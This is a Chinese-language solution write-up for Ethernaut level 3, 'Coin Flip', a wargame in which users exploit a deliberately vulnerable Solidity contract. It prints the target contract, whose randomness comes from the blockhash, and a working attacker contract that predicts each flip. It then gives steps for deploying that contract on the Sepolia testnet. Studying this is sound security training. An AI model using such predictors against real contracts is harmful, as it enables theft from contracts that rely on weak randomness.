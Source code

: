 # level3 Coin Flip

## 1. 问题

要求连续 10 次调用 `CoinFlip` 合约的 `flip` 函数，并且每次都需要成功猜中函数的执行结果。

```solidity
contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 2. 解法

由于合约是白盒，每次执行结果都是可预期且可预测的。因此，我们的思路是创建一个合约，该合约在每次调用 `CoinFlip` 合约的 `flip` 函数之前，先执行相同的计算逻辑，预先算出本次调用的结果，并将该结果传递给 `flip` 函数。


> [!WARNING]
> 无法通过for循环一次调用解决问题：因为合约中做了`lastHash`的记录和判断，所以我们如果在一次合约调用时，for循环连续调用flip函数10次，第二次开始，flip中的`lastHash == blockValue`判断就会拒绝执行。

1. 我们编写的合约如下：

```solidity
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Guess {
    CoinFlip private flip;

    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _flip) {
        // 部署合约时绑定CoinFlip合约
        flip = CoinFlip(_flip);
    }
    
    function run() external {
        
        // 完全模仿flip函数，算一遍预期的正反面结果
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        // 使用执行的结果调用flip
        bool guessSuccess = flip.flip(side);
        require(guessSuccess, "guess failed");
    }
}
```

2. 将上面的代码放到remix编译

3. 部署，输入CoinFlip合约地址作为入参，remix会唤起metamask[提交交易到sepolia](https://sepolia.etherscan.io/tx/0x5a0344ababcf99673eb4b576e2cb4290838c296332d2174a196b1b70b99ff0da)

4. 我们的Guess合约被部署到：[0x9cb0fd719a20f7dcc576845217d096614782e8e5](https://sepolia.etherscan.io/address/0x9cb0fd719a20f7dcc576845217d096614782e8e5)

5. 正式开始前，通过 Ethernaut 控制台，查询当前的 `consecutiveWins`，确认值为 0：

```bash
await contract.consecutiveWins().then(v => v.toString())
```

6. 通过 Remix 调用 `run` 函数：[交易链接](https://sepolia.etherscan.io/tx/0xfa434890083a128c93e92046c938eec58040ced7bf050cdb0dd6f8bdd5370d7d)


7. 通过 Ethernaut 控制台，查询 `consecutiveWins`，确认已更新为 1。

8. 重复执行9次

9. 点击 `submit instance`， 提交通过！



<br/>
<br/>
| [⬅️ level2 Fallout](../level2_fallout/README.md) | [level4 Telephone ➡️](../level4_telephone/README.md) |
| :---------------------------------------------- | --------------------------------------------------: |